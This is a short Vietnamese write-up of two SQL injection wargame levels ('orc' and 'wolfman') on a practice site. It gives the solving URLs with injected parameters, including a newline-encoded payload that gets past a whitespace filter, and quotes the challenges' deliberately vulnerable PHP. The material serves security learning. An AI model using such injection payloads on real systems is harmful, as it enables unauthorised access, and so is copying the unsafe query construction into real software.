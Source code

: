 https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=095a9852

Bài này sử dụng Boolean-based SQLi tương tự bài [orge]()

```
query : select id from prob_orc where id='admin' and pw='095a9852'

Hello admin
ORC Clear!
http://www.wechall.net
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

## wolfman

https://los.rubiya.kr/chall/wolfman_4fdc56b75971e41981e3d1e2fbe9b7f7.php?pw=%27%0aor%0aid=%27admin

Ký tự %0a thay thế cho space

```
query : select id from prob_wolfman where id='guest' and pw='' or id='admin'

Hello admin
WOLFMAN Clear!
http://www.wechall.net
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
